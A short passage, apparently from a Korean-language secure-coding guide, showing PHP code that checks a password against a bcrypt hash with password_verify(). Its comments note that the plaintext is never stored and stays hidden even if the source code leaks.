// password_hash()로 bcrypt 해시 생성 — 패스워드 원문을 저장하지 않음
if (password_verify($inputPassword, $hashedPassword)) {
    // password_verify()로 검증 — 타이밍 공격 방지 및 해시 비교로 패스워드 원문 노출 차단
    $success = "Welcome back user";
}
```

#### 핵심 효과

- 소스코드가 유출되어도 패스워드 원문을 알 수 없습니다.

</details>

---
